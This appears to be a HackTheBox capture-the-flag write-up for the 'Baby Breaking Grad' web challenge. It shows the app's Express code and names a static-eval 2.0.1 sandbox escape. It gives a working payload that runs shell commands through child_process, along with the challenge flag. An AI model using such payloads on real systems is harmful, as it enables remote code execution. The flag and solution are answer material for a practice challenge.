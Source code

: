 ```yaml
---
Category:
  - Web
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - RCE
  - static-eval
---
```

>[!quote]
> We corrected the math in our physics teacher's paper and now he is failing us out of spite for making a fool out of him in the university's research symposium, now we can't graduate, unless we can do something about it...


# Set up

-

# Information Gathering

![Pasted image 20210830182532.png](../../zzz_res/attachments/Pasted_image_20210830182532.png)

![Pasted image 20210830183346.png](../../zzz_res/attachments/Pasted_image_20210830183346.png)

Files:

```
.
├── build_docker.sh
├── challenge
│   ├── flag
│   ├── helpers
│   │   └── StudentHelper.js
│   ├── index.js
│   ├── package.json
│   ├── routes
│   │   └── index.js
│   ├── static
│   │   ├── css
│   │   │   └── main.css
│   │   ├── images
│   │   │   ├── favicon.png
│   │   │   └── koulis.gif
│   │   └── js
│   │       ├── koulis.js
│   │       └── main.js
│   ├── views
│   │   └── index.html
│   └── yarn.lock
├── config
│   └── supervisord.conf
├── Dockerfile
├── entrypoint.sh
└── web_baby_breaking_grad.zip
```

Passed with:

```json
{"name":"0xbro",
"formula":"[0.20 * assignment + 0.25 * exam + 0.25 * paper]",
"exam":"99",
"paper":"99",
"assignment":"99"}
```

**Index.js**

```jsx
const randomize         = require('randomatic');
const path              = require('path');
const express           = require('express');
const router            = express.Router();
const StudentHelper     = require('../helpers/StudentHelper');

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/calculate', (req, res) => {
    let student = req.body;

    if (student.name === undefined) {
        return res.send({
            error: 'Specify student name'
        })
    }

    let formula = student.formula || '[0.20 * assignment + 0.25 * exam + 0.25 * paper]';

    if (StudentHelper.isDumb(student.name) || !StudentHelper.hasPassed(student, formula)) {
        return res.send({
            'pass': 'n' + randomize('?', 10, {chars: 'o0'}) + 'pe'
        });
    }

    return res.send({
        'pass': 'Passed'
    });
});

module.exports = router;
```

**StudentHelper.js**

```jsx
const evaluate = require('static-eval');
const parse = require('esprima').parse;

module.exports = {
    isDumb(name){
        console.log("isDumb: " + name.includes('Baker') || name.includes('Purvis'));
        return (name.includes('Baker') || name.includes('Purvis'));
    },

    hasPassed({ exam, paper, assignment }, formula) {
        let ast = parse(formula).body[0].expression;
        let weight = evaluate(ast, { exam, paper, assignment });
        console.log("ast: " + ast);
        console.log("weight: " + weight);
        return parseFloat(weight) >= parseFloat(10.5);
    }
};
```

# The Bug

- `evaluate(ast, { exam, paper, assignment });` --> incorporates attacker-controllable data
- **static-eval/2.0.1** has [https://snyk.io/test/npm/static-eval/2.0.1](https://snyk.io/test/npm/static-eval/2.0.1)
- [https://github.com/advisories/GHSA-8v27-2fg9-7h62](https://github.com/advisories/GHSA-8v27-2fg9-7h62)

# Exploitation
- [https://github.com/browserify/static-eval/commit/0bcd9dc93f42898dfd832a10915a4544e11b8f13](https://github.com/browserify/static-eval/commit/0bcd9dc93f42898dfd832a10915a4544e11b8f13)
- [https://hilb3r7.github.io/walkthroughs/babybreakinggrad.html](https://hilb3r7.github.io/walkthroughs/babybreakinggrad.html)

```jsx
`(function (y){return ''[y?y:'length'][y]})('constructor')('throw new TypeError(process.mainModule.require(\"child_process\").execSync(\"cat flag*\").toString())')()`
```

![Pasted image 20210831174712.png](../../zzz_res/attachments/Pasted_image_20210831174712.png)

# Flag

 >[!success]
 >`HTB{f33l1ng_4_l1ttl3_blu3_0r_m4yb3_p1nk?...you_n33d_to_b3h4v'eval!!}`

![Pasted image 20210831173023.png](../../zzz_res/attachments/Pasted_image_20210831173023.png)

![Pasted image 20210831173058.png](../../zzz_res/attachments/Pasted_image_20210831173058.png)